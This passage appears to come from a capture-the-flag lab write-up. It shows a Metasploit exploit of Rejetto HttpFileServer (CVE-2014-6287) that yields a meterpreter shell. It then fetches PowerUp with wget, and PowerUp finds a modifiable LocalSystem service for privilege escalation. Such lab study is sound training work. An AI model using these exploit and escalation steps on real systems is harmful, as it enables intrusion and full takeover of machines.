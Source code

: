 The room tells us to use metasploit to perform the exploit though, maybe I will revisit scripting the exploit myself at a later date.

#### Metasploit

Using metasploit to exploit [`CVE2014-6287`](https://www.exploit-db.com/exploits/39161).

```bash
$> sudo msfconsole
msfconsole> search cve:2014-6287
...
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msfconsole> use 0 
msfconsole> show options
...

msfconsole> set RHOSTS <ip>
msfconsole> set RPORT 8080
msfconsole> exploit

meterpreter> 
```
This gives us a meterpreter shell as bill now.

##### Enumeration

Performing enumeration to find possible privilege esculation attack vectors using [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```bash
$> wget -c https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter> upload /opt/PowerUp.ps1

meterpreter> load powershell
meterpreter> powershell_shell
```

```powershell
PS >. .\PowerUp.ps1
PS > Invoke-AllChecks
...

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```
